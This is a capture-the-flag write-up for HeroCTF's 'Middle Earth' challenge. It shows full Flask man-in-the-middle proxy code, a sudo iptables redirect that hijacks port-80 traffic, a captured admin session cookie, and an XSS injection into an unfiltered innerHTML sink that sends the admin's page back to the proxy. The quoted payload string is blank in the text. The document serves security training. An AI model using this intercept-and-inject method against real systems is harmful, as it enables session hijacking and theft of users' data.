

# Middle Earth

### Category

System

### Difficulty

Medium

### Tags

- web

### Author

Log_s

### Description

Bilbo is once again experimenting. He's deployed an app over HTTP, with end-to-end encryption for sensitive data. "Asymetric encryption is safe" is he saying... Please, make sure it really is safe. My trust in wide feet creatures living like hippies in caves is quite limited.

Yours dearly, Gandalf.

PS: You can connect to the web app with the following credentials `aragorn:hobbit`<br>
PS2: You can use the same credentials to connect directly to the server over SSH.<br>
PS3: Saruman does not share my concerns, and is alreay using the application with his admin account very often.

DEPLOY: [https://deploy.heroctf.fr](https://deploy.heroctf.fr)

### Write Up

The web app offers one feature, which is requesting encrypted messages, and decoding them in the browser. A flag request feature is present, but not available to our user.



Through the SSH access, we notice we can run a script as root.
```
aragorn@middle-earth:~$ sudo -l
[sudo] password for aragorn: 
Matching Defaults entries for aragorn on middle-earth:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aragorn may run the following commands on middle-earth:
    (root) /opt/w_iptables.sh
```
Taking a look at this script reveals its wrapper for iptables.

To check on what port the app is running, we can check a few common ports:
```
aragorn@middle-earth:~$ nc -vz localhost 443
localhost [127.0.0.1] 443 (https) : Connection refused
aragorn@middle-earth:~$ nc -vz localhost 80
localhost [127.0.0.1] 80 (http) open
```

Since the app is runnning on port 80, it very likely running over unencrypted HTTP.

Since the app is running over HTTP, we can setup rules to place ourselves in a MitM (man-in-the-middle) situation. We can run the following flask app on the server, to act as a proxy. It will take any incomming request, and forward it to the real server (printing the response the real client is getting).
```python
from flask import Flask, request
import requests

app = Flask(__name__)

# Catch all requests
@app.route('/')
@app.route('/<path:path>', methods=['GET', 'POST', 'PUT', 'DELETE'])
def proxy(path=None):
    if path is None:
        path = ''
    url = f"http://127.0.0.1:80/{path}"

    # Extract all information from the initial request
    data = request.get_data()
    headers = {key: value for (key, value) in request.headers if key != 'Host'}

    # Forward request to the real server
    resp = requests.request(
        method=request.method,
        url=url,
        headers=headers,
        data=data,
        cookies=request.cookies,
        allow_redirects=False
    )
    print(resp.json())

    # Headers
    response_headers = [(name, value) for (name, value) in resp.raw.headers.items()]

    return (resp.content, resp.status_code, response_headers)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1001)
```
Finally, adding a rule to redirect any incomming traffic destined to port 80 to port 1001 (on which our proxy is running).

```
aragorn@middle_earth:~$ sudo /opt/w_iptables.sh A PREROUTING tcp 80 1001 REDIRECT
[sudo] password for aragorn:
Redirect rule added successfully: /usr/sbin/iptables -t nat -A  PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 1001
aragorn@middle_earth:~$ python3 proxy.py
 * Serving Flask app 'proxy'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:1001
 * Running on http://10.99.56.2:1001
Press CTRL+C to quit

[*] Initial Request:
        url: http://127.0.0.1:80/request_encrypted
        headers: {'Connection': 'keep-alive', 'Content-Length': '13', 'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/126.0.0.0 Safari/537.36', 'Content-Type': 'application/json', 'Accept': '*/*', 'Origin': 'http://middle_earth', 'Referer': 'http://middle_earth/', 'Accept-Encoding': 'gzip, deflate', 'Accept-Language': 'en-US,en;q=0.9', 'Cookie': 'session=.eJwlzjkSwjAMAMC_uKaQfEhOPpPROdA6pGL4OzD0W-yrHLnivJf9ua64lePhZS9ck0VGCEFQJw-cAwdUzmT0SROF2WyaIoymTuEWkqTkSV3RjTFNG_jcWLvM6t5Rhm1uMkdFCfC6tWHclMBFakIq_IhW8fKNXGes_wbL-wM3-zEk.aSx8ww.zT6HoH3Fv17hikxW0t53_qA9BWE'}
        data: b'{"flag":true}'

[*] Response:
{'encrypted_content': 'QoyfadcbZqmyLiY85z6xBWfhhs9T6WeJhBQhEIh4nnWv9NJSZs1N5yFbCIyH8Q36dA+FUVu6qLQHWn9J1hRqHYMs/GG7h4TgJiRHqwOPw1xwlHVAVkNZxChcwhKU5VQ0WMB5tzeSASxpXw3owW7zchRB6+9OqKcrRMYd1Gzfmit74GyCb/KMwr7QZSSp+A4v+Wo9nOnMmBbEzFBt36Llsd97lRU64ja4SodUENyF1uM1HWVpMcihXR8pPhi46GCcgQ9+B2ozYs4SDa7vCFM70tLohsd79fiu4gplszsb+e4BanEpvpNuiXO1PnxkMYrBkNShgTUyayScHkdKHSbmLQ=='}
10.99.56.3 - - [30/Nov/2025 17:21:05] "POST /request_encrypted HTTP/1.1" 200 -
```

We can notice someone requesting the flag and getting an encrypted message every 30s, comming from a different IP adress. We are however unable to decrypt it, since we don't have the required private key.

Our first instinct could be to tweak get the cookie and connect as admin on the web interface. We would be able to use the "Request FLAG" feature. However, looking at the code of [index.html](./challenge/src/templates/index.html), we see that the decryption is done using the private key, resting in the browser's sessionStorage.
```js
const crypt = new JSEncrypt();
const sessionPrivateKey = sessionStorage.getItem("sessionPrivateKey")
crypt.setPrivateKey(sessionPrivateKey);
const decrypted = crypt.decrypt(encryptedContent);
```
The key pair is generated upon login. This means we can request encrypted flags, but will not be able to decrypt them. Also, we cannot login with the password.

However, being in this MitM situation allows us not only to listen to the traffic, but also to edit it. Looking at index.html some more, this is the code responsible for requesting and displaying encrypted messages.
```js
async function requestEncrypted(isFlagRequest) {
    const response = await fetch('/request_encrypted', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
            flag: isFlagRequest,
        }),
    });

    const data = await response.json();

    if (response.ok) {
        displayMsg(data.encrypted_content, true);
    } else {
        alert(`Error: ${data.error}`);
    }
}

function displayMsg(content, encrypted) {
    const inbox = document.getElementById('inbox');
    if (inbox.querySelector('p.text-gray-500')) {
        inbox.innerHTML = ''; // Clear the "empty" message
    }
    
    msgCounter++;
    const msgId = `msg-content-${msgCounter}`;
    
    const msgDiv = document.createElement('div');
    msgDiv.className = 'bg-gray-700 p-4 rounded-lg';

    // Conditionally generate the button and other text based on the 'encrypted' flag
    msgDiv.innerHTML = `
        <div class="flex justify-between items-start">
            <div>
                <h3 class="font-bold">New Encrypted Message</h3>
                <p class="text-sm text-gray-400">From: server@secure.mail</p>
            </div>
            <button 
                class="decrypt-btn bg-green-600 hover:bg-green-700 text-white text-xs font-bold py-1 px-3 rounded" data-target="${msgId}">Decrypt
            </button>
        </div>
        <pre id="${msgId}" class="bg-gray-900 p-2 mt-2 rounded overflow-x-auto text-sm text-green-400">${content}</pre>
    `;
    inbox.prepend(msgDiv);
}
```
The encrypted content is requested from the server, and used alter the `innerHTML` attribute of a new div, without further filtering. If we controle the `content` variable, we should be able to execute arbitrary code in the admin's browser. From here out, there are two easy ways to get the flag:
- Extract the sessionStorage of the victim, and decrypt the encrypted flags we already have
- Extract the html of the admin's web page, containing the decrypted flag.

Both are valid solution. The [proxy.py](./proxy.py) file implements the second option. It's essentially the same code as before with a few changes:
- If it's the first time the proxy sees a request to `/request_encrypted` it does nothing. This is to make sure the admin has at least one correct occurence of the flag displayed in his browser.
- If it's not the first time, it changes the content of the response to ````. This will make a get request to the `/extract` endpoint with the entire web page base64 encoded as parameter.
- If the request is to `/extact`, it decodes the base64, and extract the flag from the page.

```
aragorn@middle-earth:~$ sudo /opt/w_iptables.sh A PREROUTING tcp 80 1001 REDIRECT
[sudo] password for aragorn: 
Redirect rule added successfully: /usr/sbin/iptables -t nat -A  PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 1001
aragorn@middle-earth:~$ python3 proxy.py 
 * Serving Flask app 'proxy'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:1001
 * Running on http://10.89.2.6:1001
Press CTRL+C to quit
10.89.2.7 - - [28/Aug/2025 13:45:37] "POST /request_encrypted HTTP/1.1" 200 -
10.89.2.7 - - [28/Aug/2025 13:46:07] "POST /request_encrypted HTTP/1.1" 200 -
10.89.2.7 - - [28/Aug/2025 13:46:08] "GET /x HTTP/1.1" 404 -
Hero{why_n0_http5_?_dbf81c4c9f3cb1b0ae72ad23c019fdce}
```

### Flag

Hero{why_n0_http5_?_dbf81c4c9f3cb1b0ae72ad23c019fdce}
